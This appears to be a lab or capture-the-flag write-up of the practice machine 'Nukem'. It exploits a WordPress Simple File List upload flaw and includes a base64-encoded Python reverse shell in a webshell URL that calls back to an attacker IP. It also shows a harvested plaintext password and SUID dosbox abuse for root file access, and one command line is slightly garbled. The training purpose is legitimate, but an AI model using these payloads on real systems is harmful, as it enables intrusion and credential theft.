 # Nukem \[Inter]

## Report

'simple-file-list' plugin for WordPress is vulnerable to PHP file upload and RCE, use base64 encoded reverse shell payload after uploading PoC (phpinfo). Root is running a flask application that is owned by user 'commander' but we can't restart it so that is a rabbit hole indeed.

Dosbox binary however has SUID set, use it to write to authorized\_keys, sudoers or grab shadow file and crack root password.

## Enumeration

192.168.112.105

```
22/tcp    open  ssh         OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:6a:f5:d3:30:08:7a:ec:38:28:a0:88:4d:75:da:19 (RSA)
|   256 43:3b:b5:bf:93:86:68:e9:d5:75:9c:7d:26:94:55:81 (ECDSA)
|_  256 e3:f7:1c:ae:cd:91:c1:28:a3:3a:5b:f6:3e:da:3f:58 (ED25519)
80/tcp    open  http        Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-generator: WordPress 5.5.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
3306/tcp  open  mysql?
| fingerprint-strings: 
|   HTTPOptions, LANDesk-RC, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SMBProgNeg, WMSRequest, afp, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.181' is not allowed to connect to this MariaDB server
5000/tcp  open  http        Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
13000/tcp open  http        nginx 1.18.0
|_http-title: Login V14
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD
36445/tcp open  netbios-ssn Samba smbd 4.6.2
```

#### 80 (WordPress)

```
sudo wpscan --url http://192.168.112.105

[i] Plugin(s) Identified:

[+] simple-file-list
 | Location: http://192.168.112.105/wp-content/plugins/simple-file-list/
 | [!] The version is out of date, the latest version is 6.1.15
 | Found By: Urls In Homepage (Passive Detection)
 | Version: 4.2.2 (100% confidence)

[+] tutor
---SNIP---
```

## Loot

### Initial Foothold

Simple file list 4.2.2 RCE via FIle Upload (PHP payload)

```
python3 48449.py http://192.168.112.105
9518.php - phpinfo [PoC]
```

Upload webshell and execute payload using base64 encoding

```
http://192.168.112.105/wp-content/uploads/simple-file-list/9434.php?cmd=sh%20-c%20%27echo%20cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTkyLjE2OC40NS4xODEiLDgwKSk7W29zLmR1cDIocy5maWxlbm8oKSxmKWZvciBmIGluKDAsMSwyKV07cHR5LnNwYXduKCIvYmluL3NoIikn%20|%20base64%20-d%20|%20sh%27
```

### PrivEsc

```
Read commander password from wp-config.php

pspy Output
CMD: UID=0     PID=555    | /usr/bin/python /home/commander/python_rest_flask/server.py
Have write access to source but cannot restart - Rabbit hole

SUID SYSTEM READ ACCESS
-rwsr-xr-x 1 root root 2.5M Jul  7  2020 /usr/bin/dosbox

[commander@nukem .dosbox]$ LFILE='\root\proof.txt'E"
[commander@nukem .dosbox]$ dosbox -c 'mount c /' -c "copy c:$LFILE c:\tmp\output" -c exit
```

You actually need a shell tho right but the stupid box crashed before we could to it, add to sudoers or add public key to authorized\_keys, you know what's up

### Creds

`commander:CommanderKeenVorticons1990` \[from wp-config.php]

### Proof

{% embed url="https://gtfobins.github.io/gtfobins/dosbox/" %}

